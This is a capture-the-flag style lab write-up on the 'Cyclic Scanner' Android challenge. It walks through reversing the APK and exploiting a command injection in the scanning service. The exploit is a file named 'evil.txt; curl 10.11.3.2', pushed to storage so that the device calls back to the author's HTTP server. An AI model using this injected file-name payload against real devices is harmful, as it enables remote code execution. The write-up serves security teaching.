

## Introduction
Welcome to the Cyclic Scanner Challenge! This lab is designed to mimic real-world scenarios where vulnerabilities within Android services lead to exploitable situations. Participants will have the opportunity to exploit these vulnerabilities to achieve remote code execution (RCE) on an Android device.
## Objective
* Exploit a vulnerability inherent within an Android service to achieve remote code execution.

## Skills Required

* Mastery in reverse engineering Android applications.
* In-depth understanding of Android application architecture, especially Android services, and their inherent vulnerabilities.


The app uses a switch to start the scanner which is a foreground service



Let's download vpn file and use adb to connect to the lab

```shell
pl4int3xt@archlinux ~> adb connect 10.11.1.1:5001 
connected to 10.11.1.1:5001
```

Let's locate the third party apps installed with adb 

```shell
pl4int3xt@archlinux ~> adb shell pm list packages -3
package:com.mobilehackinglab.cyclicscanner
```

Let's get the path of the cyclicscanner app

```shell
pl4int3xt@archlinux ~> adb shell pm path com.mobilehackinglab.cyclicscanner
package:/data/app/~~qM4I86KbSswb6BplSzhL0A==/com.mobilehackinglab.cyclicscanner-rtyKTMCcoKLT7WV1i1hWWA==/base.apk
```

Let's pull the app for static analysis with jadxgui

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> adb pull /data/app/~~qM4I86KbSswb6BplSzhL0A==/com.mobilehackinglab.cyclicscanner-rtyKTMCcoKLT7WV1i1hWWA==/base.apk
```

In the `AndroidManfest.xml` file the `MainActivity` is exported and we have a `ScanService` which is not exported.

```xml
<activity
    android:name="com.mobilehackinglab.cyclicscanner.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>
<service
    android:name="com.mobilehackinglab.cyclicscanner.scanner.ScanService"
    android:exported="false"/>
```

The application also needs external storage permissions for reading and writing files across shared storage and a foreground service permission which perform operations that are noticeable to the user and must display a notification to the user.

```xml
<uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE"/>
<uses-permission android:name="android.permission.FOREGROUND_SERVICE"/>
```

In the `MainActivity` we have `setupSwitch` function that uses the switch to start `ScanService.class` using an `Intent`.

```java
public static final void setupSwitch$lambda$3(MainActivity this$0, CompoundButton compoundButton, boolean isChecked) {
    Intrinsics.checkNotNullParameter(this$0, "this$0");
    if (isChecked) {
        Toast.makeText(this$0, "Scan service started, your device will be scanned regularly.", 0).show();
        this$0.startForegroundService(new Intent(this$0, (Class<?>) ScanService.class));
        return;
    }
    Toast.makeText(this$0, "Scan service cannot be stopped, this is for your own safety!", 0).show();
    ActivityMainBinding activityMainBinding = this$0.binding;
    if (activityMainBinding == null) {
        Intrinsics.throwUninitializedPropertyAccessException("binding");
        activityMainBinding = null;
    }
    activityMainBinding.serviceSwitch.setChecked(true);
}

private final void startService() {
    Toast.makeText(this, "Scan service started", 0).show();
    startForegroundService(new Intent(this, (Class<?>) ScanService.class));
}
```

Further analyzing the `ScanService` class the `handleMessage` function will tranverse through all files and call `ScanEngine.INSTANCE.scanFile(file)` to check is the files are infected or safe.

```java
@Override // android.os.Handler
public void handleMessage(Message msg) {
    Intrinsics.checkNotNullParameter(msg, "msg");
    try {
        System.out.println((Object) "starting file scan...");
        File externalStorageDirectory = Environment.getExternalStorageDirectory();
        Intrinsics.checkNotNullExpressionValue(externalStorageDirectory, "getExternalStorageDirectory(...)");
        Sequence $this$forEach$iv = FilesKt.walk$default(externalStorageDirectory, null, 1, null);
        for (Object element$iv : $this$forEach$iv) {
            File file = (File) element$iv;
            if (file.canRead() && file.isFile()) {
                System.out.print((Object) (file.getAbsolutePath() + "..."));
                boolean safe = ScanEngine.INSTANCE.scanFile(file);
                System.out.println((Object) (safe ? "SAFE" : "INFECTED"));
            }
        }
        System.out.println((Object) "finished file scan!");
    } catch (InterruptedException e) {
        Thread.currentThread().interrupt();
    }
    Message $this$handleMessage_u24lambda_u241 = obtainMessage();
    $this$handleMessage_u24lambda_u241.arg1 = msg.arg1;
    sendMessageDelayed($this$handleMessage_u24lambda_u241, ScanService.SCAN_INTERVAL);
}
```

Looking at the `ScanEngine` class we analyze the `scanFile` that takes in a `file` as a parameter. The file name is directly concatenated to the `command` variable without any checks `String command = "toybox sha1sum " + file.getAbsolutePath()`. This is a `command injection` flaw. All we need to do is to create a file with a command name as the filename. 

```java
public final boolean scanFile(File file) {
    Intrinsics.checkNotNullParameter(file, "file");
    try {
        String command = "toybox sha1sum " + file.getAbsolutePath();
        Process process = new ProcessBuilder(new String[0]).command("sh", "-c", command).directory(Environment.getExternalStorageDirectory()).redirectErrorStream(true).start();
        InputStream inputStream = process.getInputStream();
        Intrinsics.checkNotNullExpressionValue(inputStream, "getInputStream(...)");
        Reader inputStreamReader = new InputStreamReader(inputStream, Charsets.UTF_8);
        BufferedReader bufferedReader = inputStreamReader instanceof BufferedReader ? (BufferedReader) inputStreamReader : new BufferedReader(inputStreamReader, 8192);
        try {
            BufferedReader reader = bufferedReader;
            String output = reader.readLine();
            Intrinsics.checkNotNull(output);
            Object fileHash = StringsKt.substringBefore$default(output, "  ", (String) null, 2, (Object) null);
            Unit unit = Unit.INSTANCE;
            Closeable.closeFinally(bufferedReader, null);
            return !ScanEngine.KNOWN_MALWARE_SAMPLES.containsValue(fileHash);
        } finally {
        }
    } catch (Exception e) {
        e.printStackTrace();
        return false;
    }
}
```

Let's start a python server 
```shell
pl4int3xt@archlinux ~/D/mobile-hacking [1]> sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:80/) ...
```

Let's check our ip with the following command

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> ip a s tap0
```

Next we need to create a file and name it `evil.txt; curl 10.11.3.2` with our `tap0` ip.

Let's create the file in our machine

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> touch "evil.txt; curl 10.11.3.2"
```

Next we need to push it in the device storage

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> adb push "evil.txt; curl 10.11.3.2" /storage/emulated/0/
```

Launching the scanner app we get this meaning the command injection worked successfully

```shell
10.11.3.2 - - [03/Jul/2024 14:33:18] "GET / HTTP/1.1" 200 -
```

